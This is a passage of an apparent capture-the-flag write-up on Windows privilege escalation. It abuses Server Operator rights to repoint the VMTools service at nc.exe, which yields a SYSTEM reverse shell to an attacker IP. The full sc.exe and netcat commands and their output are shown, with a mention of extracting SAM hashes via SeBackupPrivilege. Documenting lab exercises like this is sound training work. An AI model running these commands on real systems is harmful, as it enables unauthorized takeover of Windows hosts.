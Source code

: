 ```SeBackupPrivilege``` is a very permissive privilege, and we could use it to extract the ```SAM``` hashes present in the system.
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 

```

# Privilege Escalation

Among the running services, we found ```vmtoolsd.exe``` which is used as a ```POC``` (proof of concept) for Privilege Escalation where the low-privileged user is part of the ```Server Operator``` group.

Link to the full article can be found [here](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/#:~:text=This%20Server%20Operator%20exploit%20allows%20attackers%20to%20escalate,exploitation%20methods%2C%20lab%20configuration%2C%20and%20effective%20mitigation%20strategies.).

We can execute the same exploit as the guide shows:
* upload ```nc.exe```
* change the binary path of ```VMTools``` service
* ```stop``` the service on the victim machine
* start a ```nc listener``` on the attack machine
* start the ```service``` on the victim machine
* receive the ```reverse shell```

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.7 4444" # set the path to where nc.exe is placed, then set your attacker IP and port where the nc listener has been started.
[SC] ChangeServiceConfig SUCCESS # Response from the command

sc.exe stop VMTools # stop the service
SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0 # confirmation of the service being stopped

sc.exe start VmTools # as soon as you start the service, your current shell will freeze and you should get a new shell on your nc listener

```

```bash
nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.108] 58408
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users\Administrator\Desktop

09/27/2021  04:22 AM    <DIR>          .
09/27/2021  04:22 AM    <DIR>          ..
05/31/2025  07:28 AM                34 root.txt
```